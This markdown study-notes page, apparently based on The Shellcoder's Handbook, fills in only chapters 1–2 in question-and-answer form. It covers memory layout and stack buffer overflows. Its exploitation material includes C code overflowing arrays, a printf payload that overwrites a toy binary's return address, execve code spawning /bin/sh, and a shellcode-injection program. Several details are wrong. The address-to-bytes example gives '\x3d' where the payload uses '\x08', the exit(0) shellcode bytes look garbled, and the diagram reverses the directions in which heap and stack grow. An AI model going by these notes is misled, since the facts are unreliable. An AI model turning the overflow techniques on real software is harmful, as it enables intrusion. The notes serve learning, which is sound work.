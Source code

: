 # The Shellcoder's Handbook
<img src="../covers/9780470080238.jpg" width="200"/>

## Chapter 1/27 Before You Begin <sup>(completed)</sup>

<details>
<summary>Specify the execution procedure of an executable?</summary>

> - The operating system creates an address space in which the program will run.
> - This address space indluces the actual program instructions as well as any required data.
> - Three segment types are created: `.text` (read-only), `.bss` (writable), `.data` (writable).
> - The `.bss` and `.data` segments are reserved for global variables.
> - The `.data` segment contains static initialized data, and `.bss` segment contains uninitialized data, `.text` segment holds the program instructions.
> - Stack and heap are initialized.
>
> ```sh
> readelf --symbols a.out | sort -k 2 -r
> ``````

> **Resources**
> - The Shellcoder's Handbook - Chapter 1

> **References**
> - https://linux-mm.org
---
</details>

<details>
<summary>Which direction each of the sections grow in binary files?</summary>

> ```sh
> ↑ Lower addresses (0x08000000)
>
> Shared libraries
> .text
> .bss
> Heap (grows ↓)
> Stack (grows ↑)
> env pointer
> Argc
>
> ↓ Higher addresses (0xbfffffff)
> ``````
>
> ---
> **Resources**
> - The Shellcoder's Handbook - Chapter 1

> **References**
---
</details>

<details>
<summary>Specify register groups in assembly language?</summary>

> - General purpose registers: `rbp`, `rsp`, `rax`, `rbx`, `rcx`, `rdx`, `rdi`, `rsi`, `r8`, `r9`,...
> - Segment registers: `cs`, `ds`, `ss`
> - Control registers: `rip`
> - Other registers: `rflags`
>
> ---
> **Resources**
> - The Shellcoder's Handbook: Chapter 1

> **References**
---
</details>

## Chapter 2/27 Stack Overflows <sup>(writing)</sup>

<details>
<summary>When buffers become vulnerable to stack overflows?</summary>

> C has no bounds-checking on buffers.
>
> ```c
> #include <stdio.h>
>
> int main()
> {
>     int array[5] = {1,2,3,4,5};
>     printf("%d\n", array[5]);
> }
> ``````
>
> ---
> **Resources**
> - The Shellcoder's Handbook - Chapter 2

> **References**
---
</details>

<details>
<summary>Write past the array bounds in C?</summary>

> ```c
> int main()
> {
>     int array[5], index;
>     for (index = 0; index != 255; ++index)
>     {
>         array[index] = 10;
>     }
> }
> ``````
>
> Inspect the core dump for further understanding of what heppened on the
> stack:
>
> ```sh
> coredumpctl list a.out
> ``````
>
> As shown by the core, machine was trying to execute address
> `0x0000000a0000000a` which is the value we filled by overwriting on the
> stack.

> **Resources**
> - The Shellcoder's Handbook - Chapter 2

> **References**
---
</details>

<details>
<summary>What values does the calling convention put on the stack?</summary>

> When a function has completed executing its instructions, it returns control
> to the original function caller.
>
> ```c
> void function(int a, int b)
> {
>     int array[5];
> }
>
> main()
> {
>     function(1, 2);
> }
> ``````
>
> The consecutive execution of the program now needs to be interrupted, and the
> instructions in `function` need to be executed. The first step is to push the
> arguments for function, `a` and `b`, backward onto the stack. When the
> arguments are placed onto the stack, the `function` is called, placing the
> return address, or `RET`, onto the stack. `RET` is the address stored in the
> instruction pointer (`EIP`) at the time function is called.
>
> Before any function instructions can be executed, the prolog is executed. In
> essence, the prolog stores some values onto the stack so that the function
> can execute cleanly. The current value of `EBP` is pushed onto the stack,
> because the value of `EBP` must be changed in order to reference values on
> the stack. When the function has completed, we will need this stored value of
> `EBP` in order to calculate address locations in main. Once `EBP` is stored
> on the stack, we are free to copy the current stack pointer (`ESP`) into
> `EBP`. Now we can easily reference addresses local to the stack.
>
> ||Low Memory Addresses and Top of the Stack|
> |---|---|
> |Array||
> |EBP||
> |RET||
> |A||
> |B||
> ||High Memory Addresses and Bottom of the Stack|

> **Resources**
> - The Shellcoder's Handbook - Chapter 2

> **References**
---
</details>

<details>
<summary>What happens when data is writen past the array boundaries on the stack?</summary>

> When examining the stack, we’re expecting to see the saved `EBP` and the
> saved return address (`RET`). But after writing past the array, both `EBP`
> and `RET` values will be overwritten by the value we put past the array.
>
> ```c
> void function(void)
> {
>     //                  top of stack, low memory
>     // 1   x 8 bytes    [index] 0x7fffffffe368
>     // 30  x 8 bytes    [array] 0x7fffffffe360
>     // rbp x 8 bytes            0x7fffffffe460
>     // ret x 8 bytes
>     //                  bottom of stack, high memory
>
>     long array[30];
>
>     unsigned long index = 0;
>
>     while (index != 33)
>     {
>         array[index] = 'C'; // value 0x43
>         ++index;
>     }
> }
>
> main()
> {
>     function();
> }
> ``````
>
> We have now successfully overflowed a buffer, overwritten `EBP` and `RET`,
> and therefore caused our overflowed value to be loaded into `EIP` after the
> execution reaches to the end of the function.
>
> While this overflow can be useful in creating a denial of service, we can
> move on to controlling the path of execution, or basically, controlling what
> gets loaded into `EIP`, the instruction pointer.

> **Resources**
> - The Shellcoder's Handbook - Chapter 2

> **References**
---
</details>

<details>
<summary>Control the execution path of a program vulnerable to buffer overflow?</summary>

> When `RET` is read off the stack and placed into `EIP`, the instruction at
> the address will be executed. This is how we will control execution.
>
> First, we need to decide what address to use. We need to determine the
> address to jump to, so we will have to go back to gdb and find out what
> address calls `function`.
>
> We then translate the address into shellcode and use `printf` to inject it
> into the vulnerable program.
>
> ```sh
> printf 'AAAAAAAAAABBBBBBBBBBCCCCCCCCCC\xed\x83\x04\x08' | ./overflow
> ``````

> **Resources**
> - The Shellcoder's Handbook - Chapter 2

> **References**
---
</details>

<details>
<summary>Translate a hexadecimal address into shellcode?</summary>

> Assuming the address we want to use is `0x080483ed`.
>
> We should separate each byte from end to the beginning separated by `\x`
> resulting in `\xed\x83\x04\x3d`.

> **Resources**
> - The Shellcoder's Handbook - Chapter 2

> **References**
---
</details>

<details>
<summary>Get shell access by exploiting a program vulnerable to buffer overflow?</summary>

> We will have to inject actual machine instructions, or opcodes, into the
> vulnerable input area. To do so, we must convert our shell-spawning code to
> assembly, and then extract the opcodes from our human-readable assembly. We
> will then have what is termed shellcode, or the opcodes that can be injected
> into a vulnerable input area and executed.
>
> ```c
> #include <stdlib.h>
> #include <unistd.h>
>
> int main(void)
> {
>     char* name[2];
>
>     name[0] = "/bin/sh";
>     name[1] = 0x0;
>     execve(name[0], name, 0x0);
>     exit(0);
> }
> ``````
>
> ---
> **Resources**
> - The Shellcoder's Handbook - Chapter 2

> **References**
---
</details>

<details>
<summary>Inject an already prepared shellcode into a process?</summary>

> ```c
> char* shellcode = "\xff\xff\xfe\xf4\xe8\xff\x31\x48\x08\xec\x83\x48";
> // shellcode for exit(0)
>
> int main(void)
> {
>     int *ret; // empty pointer sitting on stack after (caller address)
>
>     ret = (int *)&ret + 6;
>     // \          \____________ address of ret + 6 becomes the address of (caller) on stack
>     //  \______________________ put address of (caller) on ret to have access
>
>     (*ret) = (int)shellcode; // replace address of (caller) with address of shellcode
>     // executes shellcode
> }
> ``````
>
> ---
> **Resources**
> - The Shellcoder's Handbook - Chapter 2

> **References**
---
</details>

## Chapter 3/27 Shellcode
## Chapter 4/27 Introduction to Format String Bugs
## Chapter 5/27 Introduction to Heap Overflows
## Chapter 6/27 The Wild World of Windows
## Chapter 7/27 Windows Shellcode
## Chapter 8/27 Windows Overflows
## Chapter 9/27 Overcoming Filters
## Chapter 10/27 Introduction to Solaris Exploitation
## Chapter 11/27 Advanced Solaris Exploitation
## Chapter 12/27 OS X Shellcode
## Chapter 13/27 Cisco IOS Exploitation
## Chapter 14/27 Protection Mechanisms
## Chapter 15/27 Establishing a Working Environment
## Chapter 16/27 Fault Injection
## Chapter 17/27 The Art of Fuzzing
## Chapter 18/27 Source Code Auditing: Finding Vulnerabilities in C-Based Language
## Chapter 19/27 Instrumented Investigation: A Manual Approach
## Chapter 20/27 Tracing for Vulnerabilities
## Chapter 21/27 Binary Auditing: Hacking Cloud Source Software
## Chapter 22/27 Alternative Payload Strategies
## Chapter 23/27 Writing Exploits that Work in the Wild
## Chapter 24/27 Attacking Database Software
## Chapter 25/27 Unix Kernel Overflows
## Chapter 26/27 Exploiting Unix Kernel Vulnerabilities
## Chapter 27/27 Hacking the Windows Kernel
